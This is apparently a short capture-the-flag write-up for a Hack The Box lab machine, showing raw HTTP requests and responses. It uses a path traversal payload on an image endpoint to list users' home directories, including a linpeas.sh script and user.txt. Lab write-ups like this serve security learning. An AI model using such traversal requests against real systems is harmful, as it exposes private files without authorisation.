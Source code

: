 ```shell
```
- Based on some simple traversing I was able to access the phil home directory and found a user.txt and that he has a linpeas.sh that can preusumably executed 
```shell
GET /show_image?img=../../../../../../home/phil HTTP/1.1

Host: inject.htb:8080

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1


HTTP/1.1 200 

Accept-Ranges: bytes

Content-Type: image/jpeg

Content-Length: 4096

Date: Fri, 14 Apr 2023 13:13:03 GMT

Connection: close



.ansible
.bash_history
.bashrc
.cache
.gnupg
.local
.profile
linpeas.sh
rs.yml
user.txt

```



- in franks directory I found a .m2 file which doesnt appear to be standard
```shell
GET /show_image?img=../../../../../../home/frank HTTP/1.


.bash_history
.bashrc
.cache
.local
.m2
.profile

```
